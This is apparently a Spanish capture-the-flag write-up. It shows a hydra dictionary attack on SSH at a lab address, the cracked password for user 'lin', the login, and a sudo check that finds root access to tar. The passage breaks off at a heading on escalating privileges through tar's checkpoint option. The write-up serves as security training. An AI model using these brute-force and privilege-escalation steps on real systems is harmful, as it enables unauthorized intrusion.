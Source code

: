 **Interpretación:** tenemos una **lista de contraseñas** potenciales y un **usuario candidato** (`lin`). Esto permite lanzar una fuerza bruta dirigida contra servicios de autenticación.

## Ataque de fuerza bruta contra SSH con `hydra`

Se usó `hydra` para probar el usuario `lin` con el archivo `locks.txt` como diccionario:

```bash
hydra -l lin -P locks.txt ssh://10.10.69.169
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-16 10:33:56
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.69.169:22/
[22][ssh] host: 10.10.69.169   login: lin   password: RedDr4gonSynd1cat3      
```


**Notas:**

- El éxito se obtuvo por la combinación de un usuario correcto (`lin`) y una de las variantes de password presentes en `locks.txt`.
- En entornos reales, tenga en cuenta las limitaciones de intentos en SSH y políticas de bloqueo/alarma — aquí fue un laboratorio controlado.

## Acceso inicial — SSH

Con las credenciales encontradas se abrió sesión SSH:

```bash
lin@ip-10-10-69-169:~/Desktop$ ls
user.txt
```

## Enumeración local y chequeo de sudo

Comprobación de privilegios con `sudo -l`:

```bash
lin@ip-10-10-69-169:~/Desktop$ sudo -l 
[sudo] password for lin: 
Matching Defaults entries for lin on ip-10-10-69-169:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on ip-10-10-69-169:
    (root) /bin/tar
```

**Interpretación clave:** el usuario `lin` puede ejecutar `/bin/tar` **como root** sin necesidad de contraseña. Esto abre una vía de escalada porque `tar` tiene opciones que permiten ejecutar comandos arbitrarios en el contexto del proceso (con los privilegios del proceso padre cuando se ejecuta con `sudo`).
### Escalada de privilegios — abuso de `tar` (`--checkpoint-action`)

